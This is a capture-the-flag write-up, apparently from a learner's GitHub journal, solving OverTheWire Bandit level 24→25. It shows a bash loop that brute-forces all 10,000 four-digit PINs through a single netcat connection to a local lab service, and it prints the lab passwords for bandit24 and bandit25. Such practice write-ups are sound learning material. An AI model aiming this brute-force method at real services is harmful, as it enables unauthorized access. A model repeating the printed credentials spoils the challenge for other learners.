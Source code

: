 # Bandit Level 24 → 25
[Here's the link 😄](https://overthewire.org/wargames/bandit/bandit25.html)
## 📝 **Challenge Description**  
The password for `bandit25` is given if the user enters the password for `bandit24` and a secret numeric 4-digit pincode on **localhost:30002**. There is no way to retrieve the pincode except by going through all of the 10000 possible combinations. The level also states that we do not need to create new connections each time we input the password and 4 digit pincode combination.

## 🔍 **What I Initially Tried**  
The only way to solve this level is to create a script that will allow us to pass the password for `bandit24` and allow us to loop through all possible combinations of 4 digit numbers from **0000 to 9999**. Like in other programming languages, we can use a **for loop** to loop through a sequence of objects in this case we are looping through numbers ranging from 0000 to 9999. Then we can save each value along with the password for `bandit24` and pass it into the daemon via `nc`. 

## ✔️ What Worked
Since we do not write permissions in the home directory, I created a temporary directory and saved the script in there:
```bash
mktemp -d
/tmp/tmp.QdMtYOoSfv
vi script.sh
```

For this script, I looped through all values between 0000 and 9999 and piped everything into a `nc` connection:
```bash
#!/bin/bash
{
for i in {0000..9999}
do
    echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
done
} | nc localhost 30002
```
This allows us to use **one netcat connection** instead of one for each password and pincode combination. Having the `nc` connection setup like this allows us to avoid having to loop through all 10,000 possible combinations of pincodes and passwords and passing them each time into the `nc` connection. That would be inefficient and time consuming.

After I ran the script, eventually the password for `bandit25` was given:
```
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
## 🧠 Key Learnings
- Learned how to write efficient for loops in Bash to **brute-force** 4 digit pincodes and pass them to standard output.
- Learned how to effectively take standard output and pipe it into a `nc` connection as standard input.  



## 🔐 Next Step
Now let's move onto **level 25**. 

➡️ [Continue to Level 25 →](https://github.com/aminuzz/Bandit-CTF-Journey/blob/main/level%2024.md)
